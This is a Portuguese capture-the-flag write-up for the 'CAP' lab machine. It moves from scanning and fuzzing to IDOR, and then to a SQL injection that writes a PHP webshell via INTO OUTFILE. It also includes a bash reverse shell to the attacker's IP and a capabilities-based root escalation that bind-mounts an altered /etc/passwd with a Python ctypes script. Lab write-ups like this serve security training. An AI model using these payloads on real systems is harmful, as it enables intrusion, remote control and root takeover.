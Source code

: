 ```yaml
---
title: 'CAP Writeup'
date: '2024-11-14'
tags: ['API REST', 'SQLI', 'IDOR', 'Linux']
draft: false
summary: 'A aplicação possui as vulnerabilidades: enumeração de endpoints via FUZZ, SQL Injection, execução de comandos remotos (RCE) e escalonamento de privilégios via capabilities no Linux.'
images: ['/static/images/cap-writeup-images/default.png']
authors: ['default']
---
```


![logo](/static/images/cap-writeup-images/default.png)

## **Plataforma**: Hacking Club

### **Dificuldade:** Medium

### **Nome**: CAP

---

### **Port Scanning**

`nmap -sV -sC -p- -v $IP --open`

```bash
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey:
|   2048 ae:5c:8b:8d:2f:10:85:62:01:ea:74:f5:49:38:02:33 (RSA)
|   256 64:e1:6d:0e:6c:53:87:eb:2a:07:38:6a:34:47:fc:b4 (ECDSA)
|_  256 08:53:53:7e:20:20:6e:21:9b:0c:36:fa:2b:11:73:f4 (ED25519)
80/tcp   open  http    Apache httpd 2.4.48 (() PHP/7.4.15)
| http-cookie-flags:
|   /:
|     PHPSESSID:
|_      httponly flag not set
|_http-title: Site doesn't have a title (application/json).
| http-methods:
|_  Supported Methods: GET HEAD
|_http-server-header: Apache/2.4.48 () PHP/7.4.15
111/tcp  open  rpcbind 2-4 (RPC #100000)
| rpcinfo:
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|_  100000  3,4          111/udp6  rpcbind
3306/tcp open  mysql   MariaDB (unauthorized)

```

---

## **Enumeration**

`http://172.16.3.201`

![cap](/static/images/cap-writeup-images/image.png)

### Fuzzing

`ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://172.16.3.201/FUZZ -e .php,.zip -ic`

Esqueci da print 😄

```bash
backup.zip              [Status: 200, Size: 59088, Words: 251, Lines: 209, Duration: 214ms]

```

Arquivo `backup.zip` achado via fuzzing.

![cap 1](/static/images/cap-writeup-images/image1.png)

Após unzipar, temos o código da aplicação:

![cap 2](/static/images/cap-writeup-images/image2.png)

A aplicação se trata de um Slim, um framework do php utilizado principalmente em criações de aplicações web e APIS simples, mas poderosas.

### Code Review

Temos a rota `/_ul/:controller/(:parameter)`

![cap 3](/static/images/cap-writeup-images/image3.png)

- `/_ul/`: A URL começa com `/_ul/`, que pode ser o início de um caminho de uma API ou URL para uma funcionalidade específica.
- `:controller`: A parte `:controller` é um **parametro dinâmico**. No Slim, quando se usa `:parametro`, ele indica que esse segmento da URL será capturado e passado como parâmetro para a função de callback. Nesse caso, ele vai estar utilizando a classe `usuarios` da API.
- `(/:parameter)`: O parâmetro `parameter` é opcional, como indicado pelos parênteses ao redor dele. Se presente, ele será capturado e passado para a função. Caso contrário, o parâmetro `parameter` terá o valor `null` por padrão.

A classe usuários que o :parametro vai utilizar, se trata de uma consulta no banco de dados, mais especificamente para buscar informações sobre os usuários.

![cap 4](/static/images/cap-writeup-images/image4.png)

Ou seja a rota completa seria `/_ul/usuarios/{id}` , aonde o ID seria o dado inserido pra ser pesquisado no banco de dados.

`http://172.16.3.201/_ul/usuarios/1`

![cap 5](/static/images/cap-writeup-images/image5.png)

Podemos ver que a API em questão esta vulneravel a IDOR.

`http://172.16.3.201/_ul/usuarios/2`

![cap 6](/static/images/cap-writeup-images/image6.png)

Além do IDOR, podemos identificar um SQL Injection, pois a aplicação não esta realizando nenhum tipo de sanitização na hora da consulta no banco de dados.

![cap 7](/static/images/cap-writeup-images/image7.png)

Quando passamos uma aspas simples, vemos que ele quebra a query de consulta.

![cap 8](/static/images/cap-writeup-images/image8.png)

Novamente, olhando o código, podemos perceber que a API faz uma requisição do tipo POST que podemos utilizar para subir uma webshell.

o `include_once` está incluindo um arquivo e executando o que esta dentro dele, o torna possível uma web shell.

![cap 9](/static/images/cap-writeup-images/image9.png)

No caso, gravaríamos a webshell em `/var/www/html/classes/webshell.php`

`3 UNION SELECT 1,"<?php system($_GET['cmd']); ?>" INTO OUTFILE '/var/www/html/classes/shell.class.php'#`

![cap 10](/static/images/cap-writeup-images/image10.png)

A aplicação retornou null, ou seja funcionou!

Pra acessar a web shell ,teremos que mandar uma requisição do tipo POST, para a URL `/_ul/shell.php?cmd=id`

![cap 11](/static/images/cap-writeup-images/image11.png)

---

## Foot Hold

`bash -c 'exec bash -i &>/dev/tcp/10.0.31.150/1337 <&1'`

OBS: Lembre de encodar a payload com `CTRL+U` no Burp.

![cap 12](/static/images/cap-writeup-images/image12.png)

![cap 13](/static/images/cap-writeup-images/image13.png)

---

## Privillege Escalation

`getcap -r / 2>/dev/null`

![cap 14](/static/images/cap-writeup-images/image14.png)

```
cp /etc/passwd ./ #Cria uma cópia do /etc/passwd
openssl passwd -1 -salt abc password #Cria o Hash pra colocar no /tmp/passwd
nano /etc/passwd #Troca a senha do root para 'password'

```

![cap 15](/static/images/cap-writeup-images/image15.png)

Por fim só executar o `exploit.py`

```python
#exploit.py
from ctypes import *
libc = CDLL("libc.so.6")
libc.mount.argtypes = (c_char_p, c_char_p, c_char_p, c_ulong, c_char_p)
MS_BIND = 4096
source = b"/tmp/passwd"
target = b"/etc/passwd"
filesystemtype = b"none"
options = b"rw"
mountflags = MS_BIND
libc.mount(source, target, filesystemtype, mountflags, options)
```

![cap 16](/static/images/cap-writeup-images/image16.png)

### Referencia

https://book.hacktricks.xyz/linux-hardening/privilege-escalation/linux-capabilities

---

## Proof

![cap 17](/static/images/cap-writeup-images/image17.png)
